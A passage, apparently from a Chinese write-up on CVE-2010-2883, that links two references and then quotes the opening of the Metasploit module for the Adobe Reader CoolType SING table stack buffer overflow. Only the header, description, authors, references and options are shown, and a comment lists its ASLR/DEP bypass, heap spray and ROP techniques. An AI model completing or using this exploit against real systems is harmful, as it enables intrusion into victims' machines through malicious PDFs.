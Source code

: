 <https://bbs.pediy.com/thread-246274.htm>

<https://blog.csdn.net/syumlyyc/article/details/78656328>

最后给一个某大神写的复现脚本

	##
	# $Id: adobe_cooltype_sing.rb 10477 2010-09-25 11:59:02Z mc $
	##
	 
	##
	# This file is part of the Metasploit Framework and may be subject to
	# redistribution and commercial restrictions. Please see the Metasploit
	# Framework web site for more information on licensing and terms of use.
	# http://metasploit.com/framework/
	##
	 
	require 'msf/core'
	require 'zlib'
	 
	class Metasploit3 < Msf::Exploit::Remote
		Rank = GreatRanking # aslr+dep bypass, js heap spray, rop, stack bof
	 
		include Msf::Exploit::FILEFORMAT
	 
		def initialize(info = {})
			super(update_info(info,
				'Name'           => 'Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow',
				'Description'    => %q{
						This module exploits a vulnerability in the Smart INdependent Glyplets (SING) table
					handling within versions 8.2.4 and 9.3.4 of Adobe Reader. Prior version are
					assumed to be vulnerable as well.
				},
				'License'        => MSF_LICENSE,
				'Author'         =>
					[
						'Unknown',    # 0day found in the wild
						'@sn0wfl0w',  # initial analysis
						'@vicheck',   # initial analysis
						'jduck'       # Metasploit module
					],
				'Version'        => '$Revision: 10477 $',
				'References'     =>
					[
						[ 'CVE', '2010-2883' ],
						[ 'OSVDB', '67849'],
						[ 'URL', 'http://contagiodump.blogspot.com/2010/09/cve-david-leadbetters-one-point-lesson.html' ],
						[ 'URL', 'http://www.adobe.com/support/security/advisories/apsa10-02.html' ]
					],
				'DefaultOptions' =>
					{
						'EXITFUNC'             => 'process',
						'InitialAutoRunScript' => 'migrate -f',
						'DisablePayloadHandler' => 'true',
					},